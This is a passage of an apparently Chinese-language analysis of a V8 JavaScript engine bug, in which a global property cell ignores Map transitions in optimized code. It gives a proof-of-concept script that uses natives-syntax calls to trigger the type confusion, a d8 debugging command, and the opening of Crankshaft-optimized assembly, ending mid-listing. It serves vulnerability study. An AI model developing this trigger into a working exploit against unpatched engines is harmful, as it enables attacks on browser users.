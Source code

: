 该漏洞是由于全局的property cell 时没有考虑Map 的变换，在优化代码中没有进行检查。

poc 代码：

```javascript
var n;
function Ctor() {
        n = new Set();
}
function Check() {
        n.xyz = 0x826852f4;
}

Ctor();
Ctor();
%OptimizeFunctionOnNextCall(Ctor);
Ctor();

Check();
Check();
%OptimizeFunctionOnNextCall(Check);
Check();

Ctor();
%SystemBreak();
%DebugPrint(n);
Check();
%SystemBreak();
parseInt('AAAAAAAA');
```

运行代码进行调试：

```
./d8 --allow-natives-syntax --print-opt-code ./poc.js
```

Ctor优化后的代码：

```c
--- Raw source ---
() {
	n = new Set();
}


--- Optimized code ---
optimization_id = 0
source_position = 20
kind = OPTIMIZED_FUNCTION
name = Ctor
stack_slots = 5
compiler = crankshaft
Instructions (size = 218)
0x3f281ae06640     0  55             push rbp
0x3f281ae06641     1  4889e5         REX.W movq rbp,rsp
0x3f281ae06644     4  56             push rsi
0x3f281ae06645     5  57             push rdi
0x3f281ae06646     6  4883ec08       REX.W subq rsp,0x8
0x3f281ae0664a    10  488b45f8       REX.W movq rax,[rbp-0x8]
0x3f281ae0664e    14  488945e8       REX.W movq [rbp-0x18],rax
0x3f281ae06652    18  488bf0         REX.W movq rsi,rax
0x3f281ae06655    21  493ba5600c0000 REX.W cmpq rsp,[r13+0xc60]
0x3f281ae0665c    28  7305           jnc 35  (0x3f281ae06663)
0x3f281ae0665e    30  e87dc2f5ff     call StackCheck  (0x3f281ad628e0)    ;; code: BUILTIN
0x3f281ae06663    35  49bae95b696d233e0000 REX.W movq r10,0x3e236d695be9    ;; object: 0x3e236d695be9 <JS Function Set (SharedFunctionInfo 0x370eb151cb31)>
```